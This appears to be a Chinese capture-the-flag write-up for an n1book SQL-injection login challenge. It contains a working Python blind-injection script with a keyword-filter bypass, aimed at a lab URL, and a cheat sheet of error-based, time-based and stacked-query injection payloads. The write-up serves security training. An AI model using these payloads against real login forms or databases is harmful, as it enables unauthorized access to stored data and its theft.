


## flag
`n1book{login_sqli_is_nice}`

## 思路
1. 访问环境时显示403，可以遍历一下常用的入口文件`index.php、admin.php、webshell.php、login.php`等，此处题目给了提示`login.php、user.php`
2. login.php界面有两种错误反馈，测试出**admin**账户存在
    - 账号或密码错误
    - 账号不存在
3. 与[sql注入-1](./sql注入-1.md)原理相同，判断出用户名处存在字符型sql注入
       
    
4. 进一步发现union select注入，由于不展示select到的值，有两个结果作为返回值，开始写脚本进行报错注入。
```python
# -*- coding: utf-8 -*-
# @Date    : 2020-12-18
# @Author  : SuperJason
import requests
import string

url = 'http://092604a0-af99-4453-aedd-215fff67f97e.node3.buuoj.cn/login.php'
flag = ''
trueflag='8bef'
falseflag='5728'
dic = string.digits + string.ascii_letters + "!@#$%^&*()_+{}-="

# select过滤
for i in range(1,50):
# 由于服务器限制了访问请求，上述for循环可以每次遍历少一点的数量，例如1-5,5-10,....
    # 可打印字符的ASCII码在33-128之间
    left = 32
    right = 127

    while right - left != 1:
        mid = (right + left) // 2        
        # target = 'select database()'        
        # target = 'select group_concat(table_name) from information_schema.tables where table_schema=database()'
        # target = 'select group_concat(column_name) from information_schema.columns where table_name="fl4g"'
        target = 'select flag from fl4g'

        payload = "'and (ascii(substr(({}), {}, 1))>{})#".format(target, i, mid)
        #payload = payload.replace('from', 'frfromom')
        payload = payload.replace('select', 'selselectect')
        #payload = payload.replace('or', 'oorr')
        #payload = payload.replace('where', 'whwhereere')
        # 此处需要通过burpsuite等工具获得post的参数名
        data = {
            "name": "admin"+payload,
            "pass": 1
        }

        content = requests.post(url, data = data).text
        if trueflag in content:
            left = mid
        else:
            right = mid
    flag += chr(right)
    print (flag)

# note
# fl4g,usc
# flag
# n1book{login_sqli_is_nice}

```

## 总结
这道题算是简单题，只对select进行了过滤，而且只是基于报错的注入。现在来扩宽一下sql注入的难度
- 关键字过滤可以用大小写、多重关键字、/**/、concat绕过
    - select、union、sleep、information_schema
    - table、and、or
- 用extractvalue或updatexml报错注入，连接词可以为```and、or、||、&&、^```，末尾可能需要加`%23`，#的url编码。
    - 举一个updatexml的例子，其他与extractvalue相同，`1' and updatexml(1,concat(0x7e,user(),0x7e),1)%23`
    - `1' and extractvalue(1,concat(0x7e,user(),0x7e))%23`
    - `1' and extractvalue(1,concat(0x7e,database(),0x7e))%23`
    - `1' and extractvalue(1,concat(0x7e,version(),0x7e))%23`
    - 无空格、无等号，获得表名 `1'^extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e))%23`
    - 无空格、无等号，获得列名 `1'^extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e))%23`
    - 无空格，正序获得flag`1'^extractvalue(1,concat(0x7e,(select(group_concat(password))from(H4rDsq1)),0x7e))%23`
    - 无空格，逆序获得flag`1'^extractvalue(1,concat(0x7e,reverse((select(group_concat(password))from(H4rDsq1))),0x7e))%23`
- 普通盲注`"1 and if(ascii(substr((database()),{},1))>{},1,0)%23".format(i, mid)`
- 时间盲注需要用到sleep(n)，盲注通用语句
    - `sql="select(if(ascii(mid((select group_concat(schema_name) from information_schema.schemata),{},1))={},sleep(3),0))".format(str(num), str(ord(char)))`
- 进一步的关键字都被过滤，时间盲注关键字也无效，考虑SQL语句的转码。使用**堆叠注入**的方式执行**16进制编码的SQL语句**。
通用payload如下
    - `1';Set @x=SQL语句;Prepare a from @x;Execute a;#`
    - SQL语句：`concat("SE","lect flag from table")`
    - 注意`SQL语句`如果是16进制需要在前面加`0x`
